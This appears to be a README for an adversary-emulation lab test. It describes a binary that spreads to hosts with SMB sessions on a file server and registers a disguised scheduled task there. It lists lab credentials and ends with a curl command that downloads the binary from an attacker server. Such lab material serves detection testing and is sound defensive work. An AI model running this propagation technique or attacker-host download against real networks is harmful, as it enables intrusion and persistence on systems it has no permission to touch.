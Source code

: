 The test begins with enumeration of all hosts that have a connected network
session to the file server. For each discovered host, the test binary will copy
itself to the `C:\Windows\System32` folder of the remote host and then create a
scheduled task `\Microsoft\Windows\Net Session File Management Task` on the
remote host. The created task will automatically execute 15 seconds after being
registered.

### :loud_sound: Noise
The following noise activity is executed:
* User will map a network drive to a remote SMB share
* User will copy files from the mapped network drive to local directory
* User will disconnect from the mapped network drive
* User will clear the recycling bin

### :hammer: Setup

* :arrow_right: RDP into the victim workstation `bts (10.222.25.61)` as `sonicbeats37.fm\yoona` if not already connected.

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | bts.sonicbeats37.fm | sonicbeats37.fm\yoona | Exposed-Backpack |

  :o: Disconnect (**do not sign out**) from `bts (10.222.25.61)`

* :arrow_right: RDP into the victim workstation `exo (10.222.25.62)` as `sonicbeats37.fm\sunny`.

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | exo.sonicbeats37.fm | sonicbeats37.fm\sunny | Angular-Porch |

  :o: Disconnect (**do not sign out**) from `exo (10.222.25.62)`

* :arrow_right: RDP into the domain controller `blackpink (10.222.15.10)` as `sonicbeats37.fm\sooyoung`.

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | blackpink.sonicbeats37.fm | sonicbeats37.fm\sooyoung | Dental-Crew |

  :o: Disconnect (**do not sign out**) from `blackpink (10.222.15.10)`

* :arrow_right: RDP into the victim file server `asix (10.222.15.15)` as `sonicbeats37.fm\sooyoung`.

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | asix.sonicbeats37.fm | sonicbeats37.fm\sooyoung | Dental-Crew |

* Open an elevated command prompt and execute the following command to download
the test binary from the attacker server:

    ```cmd
    curl.exe --output "C:\Windows\Temp\test8.exe" http://p1nk-p3ncil.net/files/test8.exe
    ```
